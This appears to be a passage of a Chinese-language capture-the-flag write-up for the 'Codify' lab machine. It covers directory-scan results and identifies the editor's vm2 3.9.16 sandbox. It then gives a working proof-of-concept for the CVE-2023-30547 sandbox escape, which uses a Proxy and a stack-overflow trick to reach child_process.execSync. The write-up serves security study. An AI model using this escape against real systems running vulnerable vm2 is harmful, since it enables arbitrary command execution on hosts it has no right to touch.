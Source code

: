 ![image](https://hackmd.io/_uploads/rJ6hjFuNp.png)
> [15:29:00] 200 -    3KB - /About
[15:29:15] 200 -    3KB - /about
[15:30:23] 200 -    3KB - /editor
[15:30:23] 200 -    3KB - /editor/
[15:31:22] 403 -  275B  - /server-status/
[15:31:22] 403 -  275B  - /server-status


#### 1.5 Browse http://codify.htb/editor
Editor 使用vm2 v3.9.16 sandbox\
● [Sandbox Escape in vm2](https://github.com/patriksimek/vm2/blob/master/CHANGELOG.md#v3916-2023-04-11)\
● [vm2 Sandbox Escape vulnerability CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)

![image](https://hackmd.io/_uploads/rk0HUqd46.png)

### 2. CVE-2023-30547
● [Sandbox Escape in vm2@3.9.16](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) \
● [handleException()](https://blog.csdn.net/scjrw/article/details/131798427): 使用handleException()方法處理異常。 handleException()方法先印出異常訊息，然後檢查是否還有更高層級的異常。如果有，我們使用handleException()方法繼續向上尋找引發該異常的異常，直到找到引發異常的來源。

```node.js=
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {}; //建立一個空的物件 err
//建立一個 Proxy 的 handler
const handler = {
    //getPrototypeOf 方法中包含一個無窮迴圈，並在每次迭代中呼叫 new Error().stack;。
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

//建立一個代理物件 proxiedErr，使用 handler的設定。
const proxiedErr = new Proxy(err, handler);
try {
    //拋出代理，觸發 err
    throw proxiedErr;
} 
//取得err 的 constructor
catch ({constructor: c}) {
    // Node.js 的 child_process 模組執行一個command
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
